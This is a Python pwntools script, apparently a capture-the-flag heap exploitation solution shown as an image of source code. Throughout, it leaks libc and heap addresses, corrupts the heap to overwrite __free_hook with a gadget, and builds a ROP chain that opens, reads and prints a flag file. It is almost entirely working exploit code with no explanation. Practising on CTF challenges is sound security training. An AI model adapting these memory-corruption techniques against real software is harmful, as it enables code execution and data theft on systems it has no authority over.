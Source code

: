 ```python
delete(61)

add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))

add(0x28,p64(0) * 2) # 69<-56
add(0x28,p64(0) * 2) # 70<-57
add(0x28,p64(0) * 2) # 71<-58
delete(68)
add(0x60,p64(0) * 5 + p64(0x31) + p64(__free_hook_addr)) # 68
add(0x28,'pass') # 72
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

```